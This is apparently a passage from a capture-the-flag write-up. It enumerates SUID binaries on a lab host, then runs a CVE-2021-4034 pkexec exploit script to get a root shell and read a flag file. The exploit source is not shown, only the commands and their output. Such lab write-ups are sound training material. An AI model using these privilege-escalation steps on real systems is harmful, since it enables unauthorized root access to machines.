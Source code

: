 That means the current shell would not allow us to check it.

Let's check search for `suid` binaries
```
network_admin@core01:~$ find / -perm -u+s 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/ntfs-3g
/usr/bin/bwrap
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/mount
network_admin@core01:~$ ls -l /usr/bin/pkexec
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec  
```

Very typical exploit, after run the exploited script, you can get shell as root.
```
network_admin@core01:~$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# whoami
root
# hostname -I
10.13.37.13 172.22.1.1 172.22.43.1 dead:beef::250:56ff:feb9:f81b  
# cat /flag.txt
SYNACKTIV{S3Linux_1s_w@y_bett3r}
#
```

# Description

Very long and not too difficult `CTF` category machine.